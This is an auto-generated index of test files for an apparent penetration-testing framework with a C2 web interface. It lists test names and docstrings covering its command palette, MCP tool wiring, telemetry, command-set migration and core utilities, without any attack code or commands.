- `test_first_position_offers_phases_and_flags` (line 889) `def test_first_position_offers_phases_and_flags(self, completer, synthetic_index, suite_config)` - *First-positional completion lists every phase plus flags.*
- `test_first_position_prefix_filtering` (line 903) `def test_first_position_prefix_filtering(self, completer, synthetic_index, suite_config)` - *A non-empty prefix narrows the first-positional candidates.*
- `test_second_position_after_phase_lists_phase_commands` (line 913) `def test_second_position_after_phase_lists_phase_commands(self, completer, synthetic_index, suite_config)` - *After a phase token, position 2 yields phase-scoped names.*
- `test_second_position_after_info_lists_all_commands` (line 924) `def test_second_position_after_info_lists_all_commands(self, completer, synthetic_index)` - *After ``--info``, position 2 lists every canonical command.*
- `test_third_position_returns_empty` (line 934) `def test_third_position_returns_empty(self, completer, synthetic_index, suite_config)` - *Completion past the phase + query tokens yields nothing.*
- `test_completer_is_data_driven` (line 943) `def test_completer_is_data_driven(self, completer)` - *The completer reflects only the supplied index.*
- `test_overview_when_line_is_empty` (line 968) `def test_overview_when_line_is_empty(self, synthetic_index)` - *Empty input dispatches to the overview renderer.*
- `test_phase_when_token_is_known_phase` (line 975) `def test_phase_when_token_is_known_phase(self, synthetic_index, suite_config)` - *A single known phase token dispatches to the phase listing.*
- `test_search_when_token_is_unknown` (line 986) `def test_search_when_token_is_unknown(self, synthetic_index, suite_config)` - *An unknown token dispatches to fuzzy search.*
- `test_detail_when_info_flag` (line 996) `def test_detail_when_info_flag(self, synthetic_index, suite_config)` - *The ``--info`` flag dispatches to the detail renderer.*
- `test_custom_config_overrides_defaults` (line 1005) `def test_custom_config_overrides_defaults(self, synthetic_index)` - *Caller-supplied config replaces every default surface string.*
- `src` (line 1018) `def src(self, suite_config)` - *The full text of ``lazyown.py``.*
- `palette_src` (line 1023) `def palette_src(self, suite_config)` - *The full text of the module that now defines ``do_palette``.

The monolith split moved ``do_palette`` into a phase ``CommandSet``
while ``complete_palette`` stayed on ``LazyOwnShell``.*
- `test_required_imports_present` (line 1031) `def test_required_imports_present(self, src, suite_config)` - *Every import that the wiring depends on appears in the file.*
- `test_migrated_imports_present` (line 1036) `def test_migrated_imports_present(self, palette_src, suite_config)` - *The migrated ``do_palette`` module keeps its renderer import.*
- `test_methods_defined_on_lazyown_shell` (line 1041) `def test_methods_defined_on_lazyown_shell(self, src, suite_config)` - *``complete_palette`` still belongs to ``LazyOwnShell``.*
- `test_do_palette_loads_index_and_renders` (line 1053) `def test_do_palette_loads_index_and_renders(self, palette_src)` - *``do_palette`` body delegates to the loader and the renderer.*
- `test_do_palette_handles_index_error` (line 1059) `def test_do_palette_handles_index_error(self, palette_src)` - *``do_palette`` body recovers gracefully from a missing index.*
- `test_complete_palette_uses_completer` (line 1064) `def test_complete_palette_uses_completer(self, src)` - *``complete_palette`` body delegates to the shared completer instance.*
- `test_complete_palette_handles_index_error` (line 1069) `def test_complete_palette_handles_index_error(self, src)` - *``complete_palette`` body returns silently on a missing index.*
- `test_overview_when_line_is_empty` (line 1078) `def test_overview_when_line_is_empty(self, synthetic_index, suite_config)` - *Empty input produces overview mode with phase counts.*
- `test_phase_mode_returns_filtered_rows` (line 1094) `def test_phase_mode_returns_filtered_rows(self, synthetic_index, suite_config)` - *A known phase token routes to phase mode with the right rows.*
- `test_phase_mode_with_query_narrows_rows` (line 1108) `def test_phase_mode_with_query_narrows_rows(self, synthetic_index, suite_config)` - *Adding a token after the phase filters by name or summary.*
- `test_search_mode_returns_query_and_hits` (line 1123) `def test_search_mode_returns_query_and_hits(self, synthetic_index)` - *The ``--search`` flag forces search mode and surfaces hits.*
- `test_detail_mode_returns_single_entry` (line 1138) `def test_detail_mode_returns_single_entry(self, synthetic_index, suite_config)` - *The ``--info`` flag returns a one-element ``results`` list.*
- `test_detail_mode_unknown_returns_empty_results` (line 1154) `def test_detail_mode_unknown_returns_empty_results(self, synthetic_index)` - *Unknown detail target yields empty results, not an exception.*
- `test_render_json_output_is_serialisable` (line 1166) `def test_render_json_output_is_serialisable(self, synthetic_index)` - *Every documented mode round-trips through ``json.dumps``.*
- `test_palette_json_result_to_dict_matches_schema` (line 1178) `def test_palette_json_result_to_dict_matches_schema(self, suite_config)` - *Direct construction of :class:`PaletteJsonResult` exposes the schema.*
- `test_returns_required_top_level_keys` (line 1195) `def test_returns_required_top_level_keys(self, synthetic_index, suite_config)` - *Every documented context key is present in the result.*
- `test_phase_entries_carry_required_fields` (line 1207) `def test_phase_entries_carry_required_fields(self, synthetic_index, suite_config)` - *Each phase descriptor exposes ``id``, ``label`` and ``count``.*
- `test_totals_match_canonical_command_count` (line 1221) `def test_totals_match_canonical_command_count(self, synthetic_index, suite_config)` - *Totals reflect the canonical (deduplicated) command list.*
- `test_commands_sorted_by_name` (line 1235) `def test_commands_sorted_by_name(self, synthetic_index)` - *Command rows are sorted alphabetically for deterministic UI.*
- `test_phases_ordered_by_kill_chain` (line 1246) `def test_phases_ordered_by_kill_chain(self, synthetic_index)` - *Known phases appear in the configured kill-chain order.*
- `test_unknown_phases_appear_after_known_ones` (line 1260) `def test_unknown_phases_appear_after_known_ones(self, suite_config)` - *Phases not in the kill-chain order land at the bottom alphabetically.*
- `test_flags_exposed_for_ui_chips` (line 1301) `def test_flags_exposed_for_ui_chips(self, synthetic_index)` - *Search and info flags are exposed verbatim to the template.*
- `test_custom_view_config_overrides_labels` (line 1313) `def test_custom_view_config_overrides_labels(self, synthetic_index)` - *Caller-supplied :class:`PaletteViewConfig` overrides default labels.*
- `test_empty_index_yields_zero_totals` (line 1325) `def test_empty_index_yields_zero_totals(self, suite_config)` - *An empty index does not raise and reports zero totals.*
- `src` (line 1342) `def src(self, suite_config)` - *The full text of the MCP server module.*
- `test_tool_declared_in_list_tools` (line 1346) `def test_tool_declared_in_list_tools(self, src, suite_config)` - *The tool name appears in the declared ``list_tools`` block.*
- `test_input_schema_documents_line_property` (line 1350) `def test_input_schema_documents_line_property(self, src, suite_config)` - *The input schema exposes a ``line`` string property.*
- `test_dispatcher_branch_present` (line 1356) `def test_dispatcher_branch_present(self, src, suite_config)` - *``call_tool`` includes a branch for the palette tool.*
- `test_dispatcher_branch_imports_render_json` (line 1360) `def test_dispatcher_branch_imports_render_json(self, src, suite_config)` - *The dispatcher imports the structured renderer entry point.*
- `test_dispatcher_branch_handles_missing_index` (line 1367) `def test_dispatcher_branch_handles_missing_index(self, src, suite_config)` - *The dispatcher returns a structured error when the index is missing.*
- `test_dispatcher_branch_calls_render_json` (line 1374) `def test_dispatcher_branch_calls_render_json(self, src, suite_config)` - *The dispatcher invokes :func:`render_json` to produce the payload.*
- `_tool_declaration_block` (line 1381) `def _tool_declaration_block(src, tool_name)` - *Slice the ``types.Tool`` declaration up to the next sibling tool.

The MCP tool list is a flat list of ``types.Tool(...)`` calls; we
scan from the marker to the next top-level ``types.Tool(`` opening
instead of trying to balance parens inside nested input schemas.*
- `_dispatcher_branch` (line 1396) `def _dispatcher_branch(src, tool_name)`
- `src` (line 1409) `def src(self, suite_config)` - *The full text of ``lazyc2.py``.*
- `template_src` (line 1414) `def template_src(self, suite_config)` - *The full text of ``templates/palette.html``.*
- `test_required_imports_present` (line 1420) `def test_required_imports_present(self, src, suite_config)` - *The C2 module imports every helper the route depends on.*
- `test_route_decorator_present` (line 1425) `def test_route_decorator_present(self, src, suite_config)` - *The route decorator is registered on the Flask app.*
- `test_route_function_defined` (line 1429) `def test_route_function_defined(self, src, suite_config)` - *The route handler function is defined.*
- `test_route_uses_requires_auth` (line 1435) `def test_route_uses_requires_auth(self, src, suite_config)` - *The handler is gated by ``@requires_auth``.*
- `test_route_loads_index_and_builds_view` (line 1450) `def test_route_loads_index_and_builds_view(self, src, suite_config)` - *The handler delegates to the loader and the view builder.*
- `test_route_renders_palette_template` (line 1456) `def test_route_renders_palette_template(self, src, suite_config)` - *The handler renders the dedicated palette template.*
- `test_route_handles_missing_index` (line 1461) `def test_route_handles_missing_index(self, src, suite_config)` - *The handler returns a non-200 status when the index is missing.*
- `test_template_extends_base_layout` (line 1467) `def test_template_extends_base_layout(self, template_src, suite_config)` - *The palette template extends the shared layout and defines the markers.*
- `test_template_escapes_user_facing_strings` (line 1472) `def test_template_escapes_user_facing_strings(self, template_src)` - *The template renders raw command data through an escape helper.

The embedded JSON is delivered with ``| safe`` (it is operator-trusted
data baked at render time) but every per-command field that lands in
the DOM goes through the JS ``escape`` helper to avoid XSS via
docstring contents.*
- `setup_method` (line 1526) `def setup_method(self)` - *Reset the LRU cache so each test sees a fresh load.*
- `test_load_graph_against_repo_artefact` (line 1532) `def test_load_graph_against_repo_artefact(self, suite_config)` - *The committed graphify export resolves into a populated index.*
- `test_missing_graph_raises_graph_index_error` (line 1543) `def test_missing_graph_raises_graph_index_error(self, tmp_path)` - *A missing path raises :class:`GraphIndexError`.*
- `test_malformed_graph_raises_graph_index_error` (line 1551) `def test_malformed_graph_raises_graph_index_error(self, tmp_path)` - *Invalid JSON raises :class:`GraphIndexError`.*
- `test_safe_load_graph_returns_none_when_missing` (line 1561) `def test_safe_load_graph_returns_none_when_missing(self, tmp_path)` - *:func:`safe_load_graph` swallows the error and returns ``None``.*
- `test_callees_returns_helpers_only` (line 1568) `def test_callees_returns_helpers_only(self, synthetic_graph, tmp_path)` - *``callees`` skips file-typed nodes and excluded noise labels.*
- `test_callees_handles_unknown_command` (line 1582) `def test_callees_handles_unknown_command(self, synthetic_graph, tmp_path)` - *Unknown command names yield an empty list, not an exception.*
- `test_callees_with_none_graph_is_empty` (line 1592) `def test_callees_with_none_graph_is_empty(self)` - *``callees`` accepts ``None`` (post-graceful-degradation) gracefully.*
- `test_related_commands_uses_shared_helpers` (line 1598) `def test_related_commands_uses_shared_helpers(self, synthetic_graph, tmp_path)` - *Two commands sharing helpers appear as related; the third does not.*
- `test_related_commands_with_none_graph_is_empty` (line 1610) `def test_related_commands_with_none_graph_is_empty(self)` - *``related_commands`` returns an empty list when no graph is loaded.*
- `test_enrich_detail_attaches_calls_and_related` (line 1616) `def test_enrich_detail_attaches_calls_and_related(self, synthetic_graph, tmp_path, suite_config)` - *:func:`enrich_detail` adds ``calls`` and ``related`` to the entry.*
- `test_enrich_detail_passes_through_none` (line 1636) `def test_enrich_detail_passes_through_none(self)` - *``None`` inputs short-circuit to ``None`` so the renderer can format the missing case.*
- `_entry` (line 1646) `def _entry(self, suite_config)`
- `test_text_detail_includes_calls` (line 1659) `def test_text_detail_includes_calls(self, suite_config)` - *The text detail view embeds the configured ``calls`` row.*
- `test_text_detail_includes_related` (line 1668) `def test_text_detail_includes_related(self, suite_config)` - *The text detail view embeds the configured ``related`` row.*
- `test_text_detail_truncates_neighbour_list` (line 1678) `def test_text_detail_truncates_neighbour_list(self, suite_config)` - *Neighbour lists longer than the configured cap are trimmed.*
- `test_text_detail_omits_calls_when_empty` (line 1689) `def test_text_detail_omits_calls_when_empty(self, suite_config)` - *Absent / empty neighbour lists do not produce label rows.*
- `test_render_top_level_attaches_neighbour_lists` (line 1701) `def test_render_top_level_attaches_neighbour_lists(self, synthetic_index, suite_config)` - *When graph data is absent the dispatcher still degrades gracefully.*
- `test_render_json_detail_contains_neighbour_keys` (line 1712) `def test_render_json_detail_contains_neighbour_keys(self, synthetic_index, suite_config)` - *``render_json`` detail-mode entries always carry the new keys.

The synthetic index has no matching graph node, so the keys may be
empty lists; what matters is that the schema is consistent so MCP
agents can rely on ``calls`` / ``related`` always being present.*
- `test_build_palette_view_attaches_neighbour_keys` (line 1732) `def test_build_palette_view_attaches_neighbour_keys(self, synthetic_index)` - *The web-view payload exposes ``calls``/``related`` for client-side rendering.*
- `test_build_palette_view_exposes_next_flag` (line 1742) `def test_build_palette_view_exposes_next_flag(self, synthetic_index)` - *The view payload exposes the ``--next`` verb for the UI chips.*
- `parser` (line 1755) `def parser(self)` - *A parser bound to the default render config.*
- `test_next_flag_routes_to_next_mode` (line 1761) `def test_next_flag_routes_to_next_mode(self, parser, suite_config)` - *The ``--next`` flag forces next mode.*
- `test_next_flag_without_phase` (line 1770) `def test_next_flag_without_phase(self, parser, suite_config)` - *``--next`` without an argument carries a ``None`` phase.*
- `test_query_next_phase_returns_following_phase` (line 1779) `def test_query_next_phase_returns_following_phase(self, synthetic_index)` - *``next_phase`` resolves the phase after the supplied reference.*
- `test_query_next_phase_unknown_returns_none` (line 1787) `def test_query_next_phase_unknown_returns_none(self, synthetic_index)` - *An unknown reference phase yields ``None``.*
- `test_query_next_phase_at_end_returns_none` (line 1795) `def test_query_next_phase_at_end_returns_none(self)` - *The last configured phase has no successor.*
- `test_render_next_returns_phase_listing` (line 1808) `def test_render_next_returns_phase_listing(self, synthetic_index)` - *The text dispatcher prints the next phase header and entries.*
- `test_render_next_empty_returns_message` (line 1817) `def test_render_next_empty_returns_message(self)` - *When no successor exists the renderer surfaces the empty marker.*
- `test_render_json_next_mode` (line 1841) `def test_render_json_next_mode(self, synthetic_index)` - *``render_json`` returns next mode with the resolved phase.*
- `test_completer_offers_next_flag_at_first_position` (line 1851) `def test_completer_offers_next_flag_at_first_position(self, synthetic_index)` - *The first-position completion list includes ``--next``.*
- `test_completer_after_next_offers_phases` (line 1861) `def test_completer_after_next_offers_phases(self, synthetic_index)` - *After ``--next`` the completer offers phase identifiers.*
- `src` (line 1877) `def src(self, suite_config)` - *The full text of ``lazyc2.py``.*
- `test_route_decorator_present` (line 1881) `def test_route_decorator_present(self, src, suite_config)` - *The API route decorator is registered on the Flask app.*
- `test_route_function_defined` (line 1885) `def test_route_function_defined(self, src, suite_config)` - *The handler function is defined.*
- `test_route_uses_requires_auth` (line 1891) `def test_route_uses_requires_auth(self, src, suite_config)` - *The handler is gated by ``@requires_auth``.*
- `test_route_returns_jsonified_view` (line 1906) `def test_route_returns_jsonified_view(self, src, suite_config)` - *The handler delegates to the same view builder as the HTML route.*
- `test_route_handles_missing_index` (line 1913) `def test_route_handles_missing_index(self, src, suite_config)` - *A missing index resolves to a JSON 503 instead of an HTML page.*
- `base_src` (line 1924) `def base_src(self, suite_config)` - *The full text of ``templates/base.html``.*
- `test_overlay_markup_present` (line 1930) `def test_overlay_markup_present(self, base_src, suite_config)` - *Every required overlay element marker is in the template.*
- `test_overlay_is_authenticated_only` (line 1935) `def test_overlay_is_authenticated_only(self, base_src)` - *The overlay only renders for logged-in operators.*
- `test_overlay_escapes_command_strings` (line 1942) `def test_overlay_escapes_command_strings(self, base_src)` - *The client-side renderer routes user-visible fields through an escape helper.*
- `test_overlay_links_to_full_palette` (line 1947) `def test_overlay_links_to_full_palette(self, base_src)` - *The overlay footer links back to the full palette view.*
- `src` (line 1956) `def src(self, suite_config)` - *The full text of the MCP server module.*
- `test_description_mentions_next_mode` (line 1960) `def test_description_mentions_next_mode(self, src)` - *The tool description advertises ``--next``.*
- `test_description_mentions_calls_and_related` (line 1964) `def test_description_mentions_calls_and_related(self, src)` - *The tool description advertises the new neighbour fields.*
- `test_safe_load_returns_empty_index_when_csv_missing` (line 2018) `def test_safe_load_returns_empty_index_when_csv_missing(self, tmp_path)` - *A non-existent CSV degrades to an empty index, never raises.*
- `test_load_telemetry_counts_invocations` (line 2028) `def test_load_telemetry_counts_invocations(self, synthetic_telemetry_path)` - *The loader aggregates per-command run counts from the CSV.*
- `test_load_telemetry_normalises_prefix` (line 2037) `def test_load_telemetry_normalises_prefix(self, synthetic_telemetry_path)` - *Both prefixed and non-prefixed CSV entries collapse onto ``do_<verb>``.*
- `test_load_telemetry_skips_excluded_commands` (line 2045) `def test_load_telemetry_skips_excluded_commands(self, synthetic_telemetry_path)` - *Sentinel rows (``exit``, blanks) never make it into the index.*
- `test_load_telemetry_records_last_seen` (line 2053) `def test_load_telemetry_records_last_seen(self, synthetic_telemetry_path)` - *``last_seen`` is the most recent timestamp seen for that command.*
- `test_recent_order_is_most_recent_first_and_unique` (line 2060) `def test_recent_order_is_most_recent_first_and_unique(self, synthetic_telemetry_path)` - *Recents are deduplicated and ordered most-recent-first.*
- `test_cooccurrence_emits_top_followers` (line 2070) `def test_cooccurrence_emits_top_followers(self, synthetic_telemetry_path)` - *Commands following ``do_lazynmap`` within the window are ranked.*
- `test_cooccurrence_respects_min_count` (line 2079) `def test_cooccurrence_respects_min_count(self, tmp_path)` - *A pair seen only once never makes it into the result.*
- `test_command_stats_normalises_lookup_prefix` (line 2092) `def test_command_stats_normalises_lookup_prefix(self, synthetic_telemetry_path)` - *``command_stats`` accepts both ``do_x`` and ``x`` forms.*
- `test_runs_after_handles_none_telemetry` (line 2102) `def test_runs_after_handles_none_telemetry(self)` - *A ``None`` telemetry index degrades to empty results.*
- `test_enrich_detail_attaches_runs_and_runs_after` (line 2110) `def test_enrich_detail_attaches_runs_and_runs_after(self, synthetic_telemetry_path)` - *The enrichment helper carries telemetry into a detail entry.*
- `test_enrich_detail_passes_through_none` (line 2123) `def test_enrich_detail_passes_through_none(self)` - *``None`` input remains ``None`` so the renderer can show its message.*
- `test_load_telemetry_raises_on_unreadable_path` (line 2129) `def test_load_telemetry_raises_on_unreadable_path(self, tmp_path)` - *A directory in the CSV slot raises a typed error.*
- `test_render_detail_shows_runs_and_runs_after` (line 2143) `def test_render_detail_shows_runs_and_runs_after(self)` - *Run count, last seen and runs-after rows render when populated.*
- `test_render_detail_skips_telemetry_rows_when_zero` (line 2168) `def test_render_detail_skips_telemetry_rows_when_zero(self)` - *A command with zero runs hides the telemetry rows entirely.*
- `test_build_palette_view_includes_recents_key` (line 2189) `def test_build_palette_view_includes_recents_key(self, synthetic_index)` - *The view payload exposes a ``recents`` field for the overlay.*
- `src` (line 2202) `def src(self, suite_config)` - *The full text of ``lazyc2.py``.*
- `test_rate_limit_decorator_present` (line 2206) `def test_rate_limit_decorator_present(self, src, suite_config)` - *The handler is decorated with ``@limiter.limit(...)``.*
- `test_rate_limit_constant_defined` (line 2210) `def test_rate_limit_constant_defined(self, src, suite_config)` - *The rate-limit value is defined as a module-level constant.*
- `test_rate_limit_falls_back_to_default` (line 2216) `def test_rate_limit_falls_back_to_default(self, src, suite_config)` - *The fallback default (``60 per minute``) is wired into the constant.*
- `base_src` (line 2229) `def base_src(self, suite_config)` - *The full text of ``templates/base.html``.*
- `test_telemetry_markers_present` (line 2233) `def test_telemetry_markers_present(self, base_src, suite_config)` - *Every required telemetry marker is in the overlay markup.*
- `test_score_function_uses_runs_signal` (line 2238) `def test_score_function_uses_runs_signal(self, base_src)` - *The fuzzy ranker incorporates run counts as a tiebreaker.*
- `test_recents_section_renders_when_input_empty` (line 2243) `def test_recents_section_renders_when_input_empty(self, base_src)` - *The renderer emits a ``recent`` section when no query is typed.*
- `test_enrichment_returns_entry_when_both_modules_missing` (line 2252) `def test_enrichment_returns_entry_when_both_modules_missing(self, monkeypatch)` - *A double-import failure still returns the original entry untouched.*
- `test_enrichment_passes_through_none` (line 2270) `def test_enrichment_passes_through_none(self)` - *``None`` continues to mean "command not found" downstream.*

#### `test_command_set_migration.py`
**Path:** `tests/test_command_set_migration.py`
**File Doc:** *Tests for the completed migration of ``LazyOwnShell`` commands.  The migration moved ``do_*`` methods out of ``lazyown.py`` into phase- scoped :class:`cmd2.CommandSet` subclasses under ``cli/commands/``. The monolith split is complete: all migrated modules inherit from the active :class:`cli.commands._base.LazyOwnCommandSet`, originals were removed from ``LazyOwnShell``, and no set remains dormant.  These tests pin down three invariants:  1. Activation: every discovered ``CommandSet`` subclasses the active base (not the dormant :class:`cli.commands._dormancy.PendingCommandSet`), survives ``include_pending=False`` discovery, and registers on the shell. 2. Deduplication: every migrated ``do_*`` method is gone from :class:`LazyOwnShell` (no lingering duplicate) while the migrated set still exposes its ``do_*`` commands. 3. Production hygiene: migrated module bodies do not contain emoji or ``TODO``/``FIXME`` comment markers, in line with the project coding standards.*

**Classes:**
- `TestDormancyMechanism` (line 139) `class TestDormancyMechanism`
- `TestShellForwarding` (line 189) `class TestShellForwarding` - *Pin the ``_base`` forwarding contract used by every migrated ``do_*``.

cmd2 keeps the parent shell in a name-mangled private attribute and exposes
it through the :attr:`cmd2.CommandSet._cmd` property. A regression that
reads ``self.__dict__`` instead of that property silently turns
``self.params`` into an empty dict and every forwarded call (such as
``self.cmd(...)``) into ``AttributeError``.*
- `TestMigratedSetsStructure` (line 249) `class TestMigratedSetsStructure`
- `TestParityWithLegacyShell` (line 284) `class TestParityWithLegacyShell`
- `TestProductionHygiene` (line 312) `class TestProductionHygiene`
- `_Sample` (line 157) `class _Sample(PendingCommandSet)`
- `_Bare` (line 180) `class _Bare(Cmd)`
- `_Probe` (line 202) `class _Probe(LazyOwnCommandSet)`
- `_Shell` (line 219) `class _Shell(Cmd)`
- `_Shell` (line 234) `class _Shell(Cmd)`

**Functions:**
- `_discover_migrated_class_names` (line 38) `def _discover_migrated_class_names()` - *Return ``{module_name: class_name}`` for every active ``CommandSet``.

Uses the same discovery path as the production registry so the
mapping stays in sync without manual updates.*
- `_collect_migrated_modules` (line 57) `def _collect_migrated_modules()` - *Return the set of ``cli/commands/*.py`` module names (no private files).*
- `_parse_class` (line 62) `def _parse_class(file_path, class_name)` - *Return the AST ``ClassDef`` node named ``class_name`` in ``file_path``.

Args:
    file_path: Path to a Python source file.
    class_name: Identifier of the class to locate.

Returns:
    The matching :class:`ast.ClassDef` node.

Raises:
    AssertionError: When the class cannot be found.*
- `_category_argument` (line 82) `def _category_argument(decorator)` - *Extract the category identifier from a ``with_category`` decorator.

Args:
    decorator: The decorator AST node.

Returns:
    The identifier or literal string passed to ``with_category``, or
    ``None`` when the decorator is not a ``with_category`` call.*
- `_collect_legacy_do_methods` (line 110) `def _collect_legacy_do_methods()` - *Collect every ``do_*`` method on ``LazyOwnShell`` keyed by name.

Returns:
    Mapping from method name to its ``@with_category`` category
    identifier, or an empty string when un-categorised.*
- `_module_path` (line 134) `def _module_path(module_name)` - *Return the source path of a ``cli.commands.<module_name>`` module.*

**Methods:**
- `test_pending_marker_attribute` (line 140) `def test_pending_marker_attribute(self)`
- `test_is_pending_helper` (line 145) `def test_is_pending_helper(self)`
- `test_subclass_inherits_pending_flag` (line 154) `def test_subclass_inherits_pending_flag(self)`
- `test_all_discovered_sets_are_active` (line 162) `def test_all_discovered_sets_are_active(self)`
- `test_active_sets_excluded_when_pending_skipped` (line 169) `def test_active_sets_excluded_when_pending_skipped(self)`
- `test_register_includes_migrated_sets` (line 175) `def test_register_includes_migrated_sets(self)`
- `_make_set` (line 199) `def _make_set(self)`
- `test_unregistered_params_default_empty` (line 207) `def test_unregistered_params_default_empty(self)`
- `test_unregistered_forwarding_raises_attribute_error` (line 211) `def test_unregistered_forwarding_raises_attribute_error(self)`
- `test_registered_params_reflect_shell` (line 216) `def test_registered_params_reflect_shell(self)`
- `test_registered_forwards_shell_methods` (line 229) `def test_registered_forwards_shell_methods(self)`
- `migrated_modules` (line 251) `def migrated_modules(self)`
- `module_names` (line 255) `def module_names(self, migrated_modules)`
- `test_all_modules_discoverable` (line 258) `def test_all_modules_discoverable(self, migrated_modules)`
- `test_all_active_and_have_phase` (line 261) `def test_all_active_and_have_phase(self, migrated_modules)`
- `test_each_module_has_do_methods` (line 273) `def test_each_module_has_do_methods(self, migrated_modules)`
- `test_no_do_methods_remain_on_shell` (line 285) `def test_no_do_methods_remain_on_shell(self)` - *Only infrastructure methods remain on LazyOwnShell.*
- `test_migrated_methods_not_duplicated_on_shell` (line 295) `def test_migrated_methods_not_duplicated_on_shell(self)` - *Every migrated ``do_*`` method is absent from LazyOwnShell.*
- `module_names` (line 314) `def module_names(self)`
- `test_no_forbidden_markers` (line 317) `def test_no_forbidden_markers(self, module_names)`
- `test_no_emoji` (line 325) `def test_no_emoji(self, module_names)`
- `test_every_module_is_parseable` (line 345) `def test_every_module_is_parseable(self, module_names)`
- `__init__` (line 181) `def __init__(self)`
- `__init__` (line 220) `def __init__(self)`
- `__init__` (line 235) `def __init__(self)`
- `cmd` (line 239) `def cmd(self, line)`

#### `test_conditional_hooks_extended.py`
**Path:** `tests/test_conditional_hooks_extended.py`
**File Doc:** *Tests for extended HookEngine trigger matching.  Covers: - _contains suffix matching (substring, case-insensitive) - Case-insensitive exact matching - Case-insensitive list matching - Host-owned default rule*

**Classes:**
- `TestTriggerMatchContainsSuffix` (line 30) `class TestTriggerMatchContainsSuffix`
- `TestTriggerMatchCaseInsensitive` (line 64) `class TestTriggerMatchCaseInsensitive`
- `TestDefaultRuleAutoPrivesc` (line 96) `class TestDefaultRuleAutoPrivesc`

**Functions:**
- `engine` (line 21) `def engine()`
- `_match_rule` (line 90) `def _match_rule(rule, event, context)`
- `_load_default_rules` (line 118) `def _load_default_rules()`

**Methods:**
- `test_command_contains_substring_match` (line 31) `def test_command_contains_substring_match(self)`
- `test_command_contains_case_insensitive` (line 39) `def test_command_contains_case_insensitive(self)`
- `test_command_contains_no_match` (line 47) `def test_command_contains_no_match(self)`
- `test_command_contains_missing_key` (line 55) `def test_command_contains_missing_key(self)`
- `test_exact_match_case_insensitive` (line 65) `def test_exact_match_case_insensitive(self)`
- `test_list_match_case_insensitive` (line 73) `def test_list_match_case_insensitive(self)`
- `test_exact_match_different_event` (line 81) `def test_exact_match_different_event(self)`
- `test_auto_privesc_linux_rule_exists` (line 97) `def test_auto_privesc_linux_rule_exists(self)`
- `test_auto_privesc_windows_rule_exists` (line 102) `def test_auto_privesc_windows_rule_exists(self)`
- `test_auto_crystal_ball_rule_exists` (line 107) `def test_auto_crystal_ball_rule_exists(self)`
- `test_auto_loot_on_owned_rule_exists` (line 112) `def test_auto_loot_on_owned_rule_exists(self)`

#### `test_console_stdio.py`
**Path:** `tests/test_console_stdio.py`
**File Doc:** *Non-blocking stdio hardening: logging must never crash the shell.*

**Classes:**
- `_FailOnce` (line 19) `class _FailOnce` - *Stdout double failing the first write with BlockingIOError.*
- `_AlwaysFail` (line 42) `class _AlwaysFail` - *Stdout/stderr double that always fails.*

**Functions:**
- `test_write_stdout_normal_path` (line 57) `def test_write_stdout_normal_path(capsys)` - *Healthy stdout writes through and reports success.*
- `test_write_stdout_recovers_after_blocking_error` (line 63) `def test_write_stdout_recovers_after_blocking_error(monkeypatch)` - *One BlockingIOError is absorbed; the retry delivers the text.*
- `test_write_stdout_never_raises` (line 71) `def test_write_stdout_never_raises(monkeypatch)` - *Total stdio failure degrades silently instead of killing the op.*
- `test_print_error_survives_broken_stdout` (line 78) `def test_print_error_survives_broken_stdout(monkeypatch, capsys)` - *The error path from the reported crash no longer double-faults.*
- `test_ensure_blocking_stdio_never_raises` (line 86) `def test_ensure_blocking_stdio_never_raises()` - *Fd repair is best-effort on any stdio shape.*

**Methods:**
- `__init__` (line 22) `def __init__(self)`
- `write` (line 26) `def write(self, data)` - *Raise once, then accept.*
- `flush` (line 34) `def flush(self)` - *No-op flush.*
- `fileno` (line 37) `def fileno(self)` - *Invalid fd so fd-level repair is skipped.*
- `write` (line 45) `def write(self, data)` - *Always raise.*
- `flush` (line 49) `def flush(self)` - *No-op flush.*
- `fileno` (line 52) `def fileno(self)` - *Invalid fd so fd-level repair is skipped.*

#### `test_contract_manifest.py`
**Path:** `tests/test_contract_manifest.py`
**File Doc:** *Tests for the contract manifest drift checker.  The checker is the CI gate that keeps the documented contract tables and the public import examples honest. These tests pin the positive case on the real repository and the negative cases on a synthetic tree.*

**Functions:**
- `test_default_manifest_is_consistent` (line 19) `def test_default_manifest_is_consistent()` - *The real repository must not report contract drift.*
- `test_missing_module_reference_is_reported` (line 24) `def test_missing_module_reference_is_reported(tmp_path)` - *A contract table that cites a missing module is drift.*
- `test_missing_public_import_is_reported` (line 38) `def test_missing_public_import_is_reported(tmp_path)` - *A public import example that names a missing symbol is drift.*
- `test_dotted_symbol_exists_uses_ast_not_import` (line 47) `def test_dotted_symbol_exists_uses_ast_not_import(tmp_path)` - *Symbol resolution parses the file and never executes it.*

#### `test_core.py`
**Path:** `tests/test_core.py`
**File Doc:** *``core`` package and ``utils`` re-export tests.  Validate the ``core/`` package layout and confirm ``utils.py`` continues to re-export every public name so the CLI commands and the C2 routes that import from ``utils`` keep working.*

**Classes:**
- `TestCorePackageStructure` (line 37) `class TestCorePackageStructure` - *Each ``core`` module must exist and parse cleanly.*
- `TestCoreConsole` (line 50) `class TestCoreConsole` - *ANSI constants and print helpers.*
- `TestCoreConfig` (line 110) `class TestCoreConfig` - *Config wrapper, load_payload, save_payload.*
- `TestCoreCrypto` (line 156) `class TestCoreCrypto` - *xor_encrypt_decrypt is symmetric and matches legacy behavior.*
- `TestCoreValidators` (line 190) `class TestCoreValidators` - *Validators short-circuit cleanly without raising.*
- `TestCoreProtocols` (line 236) `class TestCoreProtocols` - *Protocols are runtime-checkable structural types.*
- `TestUtilsBackwardsCompat` (line 268) `class TestUtilsBackwardsCompat` - *utils.py must still expose every public symbol the ``core`` package owns.*
- `TestUtilsParsesAndRunsAfterRefactor` (line 355) `class TestUtilsParsesAndRunsAfterRefactor` - *utils.py must still parse and import without exploding.*
- `Dummy` (line 250) `class Dummy`
- `Bogus` (line 262) `class Bogus`

**Functions:**
- `_run_in_subprocess` (line 23) `def _run_in_subprocess(snippet)` - *Execute ``snippet`` in a clean subprocess so utils.py argv parsing does not fire.*

**Methods:**
- `test_module_exists_and_parses` (line 44) `def test_module_exists_and_parses(self, module)`
- `test_ansi_constants_have_escape_prefix` (line 53) `def test_ansi_constants_have_escape_prefix(self)`
- `test_print_msg_writes_green_payload` (line 60) `def test_print_msg_writes_green_payload(self, capsys)`
- `test_print_error_writes_red_payload` (line 69) `def test_print_error_writes_red_payload(self, capsys)`
- `test_print_warn_writes_warn_glyph` (line 78) `def test_print_warn_writes_warn_glyph(self, capsys)`
- `test_ascii_glyphs_by_default_emoji_opt_in` (line 87) `def test_ascii_glyphs_by_default_emoji_opt_in(self, capsys, monkeypatch)`
